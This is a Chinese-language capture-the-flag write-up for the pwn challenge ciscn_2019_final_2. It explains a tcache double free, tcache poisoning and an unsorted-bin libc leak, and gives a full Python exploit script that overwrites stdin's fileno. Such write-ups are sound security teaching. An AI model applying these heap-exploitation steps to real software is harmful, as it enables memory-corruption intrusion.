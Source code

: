 
### ciscn_2019_final_2

本题需要将读入的 `flag` 的 `fd` 改为 666。

存在 tcache double free 漏洞，首先分配多个 `short`，利用 double free 泄露堆地址。然后 tcache 投毒，伪造 `chunk0` 大小，并释放进入 unsorted bin 泄露 libc。注意释放前先填满 tcache 才能进入 unsorted bin。

接下来继续投毒使 `int` 的 `fd` 指向 `fileno`，再次 double free 泄露 `chunk0` 的 `mem` 指针地址。最后投毒指向 `chunk0` 的 `mem` 指针地址，再申请三次就可以修改 `fileno` 了。

```python
add(1,0x30)
free(1)
add(2,0x20)
add(2,0x20)
add(2,0x20) # total size: 0x90
add(2,0x20) # prevent merging
free(2)
add(1,0x30)
free(2)
show(2)
ru('number :')
chunk0 = int(ru('\n'))-0xa0
leak('chunk0',chunk0)
add(2,chunk0) # poisoning
add(2,0xdeadbeef)
add(2,0x91) # chunk0

for i in range(7): # fill tcache
	free(1)
	add(2,0x20)
free(1) # unsorted
show(1)
ru('number :')

base = int(ru('\n'))-96-libc.sym['__malloc_hook']-0x10
leak('base',base)
fileno = base+libc.sym['_IO_2_1_stdin_']+0x70

add(1,fileno) # poisoning
add(1,0x30)
free(1)
add(2,0x20)
free(1)
show(1)
ru('number :')
chunk0_mem = int(ru('\n'))-0x30

add(1,chunk0_mem) # poisoning
add(1,0xdeadbeef)
add(1,0xdeadbeef)
add(1,666)

sla('>',4)
```
